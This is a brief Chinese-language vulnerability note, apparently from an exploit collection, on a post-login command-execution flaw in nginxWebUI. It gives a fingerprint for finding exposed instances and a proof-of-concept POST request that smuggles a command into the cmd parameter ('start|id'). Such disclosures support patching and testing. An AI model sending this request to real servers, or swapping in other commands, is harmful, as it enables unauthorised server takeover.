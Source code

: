 # nginxWebUI cmdOver 后台命令执行漏洞

# nginxWebUI cmdOver 后台命令执行漏洞

## 漏洞描述

nginxWebUI 后台存在命令执行漏洞，攻击者登录后台后可以执行任意命令获取服务器权限

## 漏洞影响

```
nginxWebUI
```

## 网络测绘

```
title="nginxwebui"
```

## 漏洞复现

登录页面

![image-20220628112638269](/images/202206281126396.png)



验证请求包

```
POST /adminPage/remote/cmdOver

remoteId=local&cmd=start|id&interval=1
```

![image-20220628112938342](/images/202206281129491.png)

